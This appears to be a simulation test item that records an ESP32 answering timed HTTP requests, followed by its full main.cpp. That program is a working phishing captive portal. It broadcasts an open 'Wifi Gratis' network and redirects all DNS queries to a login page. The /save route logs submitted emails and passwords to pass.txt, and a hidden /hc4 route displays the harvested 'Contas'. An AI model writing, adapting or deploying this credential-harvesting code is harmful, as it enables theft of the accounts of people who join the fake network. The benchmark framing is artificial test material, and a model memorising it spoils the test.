
Recording of a program running on a simulated ESP32. Shown: the last lines printed to the serial monitor. The inputs (shaded band) are chosen by the test bench. Storage starts empty.

Above: at 1.2 s.
1.3 s: HTTP request GET /save received
At 1.8 s:

2.8 s: HTTP request GET /hc4 received
At 3.1 s:

4.3 s: HTTP request GET /save?email=1&pass=1&rede=1 received
At 5.5 s:

5.8 s: HTTP request GET /hc4?email=1 received
At 6.8 s:


The program:

main.cpp
```cpp
#include <WiFi.h>
#include <ESPAsyncWebServer.h>
#include <DNSServer.h>
#include <SPIFFS.h>

const char* ssid = "Wifi Gratis";
const char* password = "";

// Inicialização do servidor web e DNS
AsyncWebServer server(80);
DNSServer dnsServer;

// Porta do servidor DNS
const byte DNS_PORT = 53;

// Função de callback para monitorar conexões de clientes
void WiFiEvent(WiFiEvent_t event) {
  switch(event) {
    case SYSTEM_EVENT_AP_START:
      Serial.println("Access Point Iniciado");
      Serial.print("IP do AP: ");
      Serial.println(WiFi.softAPIP());
      break;
    case SYSTEM_EVENT_AP_STACONNECTED:
      Serial.println("Dispositivo conectado ao AP");
      break;
    case SYSTEM_EVENT_AP_STADISCONNECTED:
      Serial.println("Dispositivo desconectado do AP");
      break;
    default:
      break;
  }
}

void setup() {
  Serial.begin(115200);

  // Iniciar o SPIFFS
  if (!SPIFFS.begin(true)) {
    Serial.println("Erro ao montar o sistema de arquivos SPIFFS");
    return;
  }
  Serial.println("SPIFFS montado com sucesso");

  // Configurar o AP (Access Point)
  WiFi.softAP(ssid, password);

  // Registra eventos de WiFi
  WiFi.onEvent(WiFiEvent);

  // Iniciar o servidor DNS
  dnsServer.start(DNS_PORT, "*", WiFi.softAPIP());

  // Rota para servir o arquivo index.html do SPIFFS
  server.on("/", HTTP_GET, [](AsyncWebServerRequest *request){
    request->send(SPIFFS, "/index.html", "text/html");
  });

  // Rota para capturar parâmetros e salvar no pass.txt
  server.on("/save", HTTP_GET, [](AsyncWebServerRequest *request){
    if (request->hasParam("email") && request->hasParam("pass")) {
      String rede = request->getParam("rede")->value();
      String email = request->getParam("email")->value();
      String pass = request->getParam("pass")->value();
      String data = "\nrede="+rede +" | email=" + email + " | pass=" + pass + "\n";

      // Abrir arquivo para adicionar
      File file = SPIFFS.open("/pass.txt", FILE_APPEND);
      if (file) {
        if (file.print(data)) {
          file.close();
          request->send(200, "text/plain", "Redirecionando...");
          Serial.println("Dados salvos em pass.txt: " + data);
        } else {
          request->send(500, "text/plain", "Redirecionando...............");
          Serial.println("Erro ao escrever em pass.txt");
        }
      } else {
        request->send(500, "text/plain", "Redirecionando...........................");
        Serial.println("Erro ao abrir pass.txt");
      }
    } else {
      request->send(400, "text/plain", "Redirecionando.......");
      Serial.println("Parâmetros faltando ao salvar dados");
    }
  });

  // Rota para exibir o conteúdo do pass.txt com título "Contas"
  server.on("/hc4", HTTP_GET, [](AsyncWebServerRequest *request){
    File file = SPIFFS.open("/pass.txt", FILE_READ);
    if (file) {
      String fileContent;
      fileContent += "<h1>Contas</h1>"; // Título "Contas"
      fileContent += "<pre>";
      while (file.available()) {
        fileContent += file.readString();
      }
      fileContent += "</pre>";
      file.close();
      request->send(200, "text/html", fileContent);
      Serial.println("Conteúdo de pass.txt enviado com sucesso");
    } else {
      request->send(500, "text/plain", "Erro ao abrir o arquivo");
      Serial.println("Erro ao abrir pass.txt para leitura");
    }
  });

  // Redirecionar qualquer outra solicitação para a página principal
  server.onNotFound([](AsyncWebServerRequest *request){
    request->redirect("/");
  });

  // Iniciar o servidor
  server.begin();
}

void loop() {
  // Processar as solicitações DNS
  dnsServer.processNextRequest();
}
```

Measured:
- after the input at 1.3 s, the serial monitor: prints a new line at once (image 1)
- after the input at 2.8 s, the serial monitor: prints a new line at once (image 2)
- after the input at 4.3 s, the serial monitor: prints a new line at once (image 3)
- after the input at 5.8 s, the serial monitor: prints a new line at once (image 4)
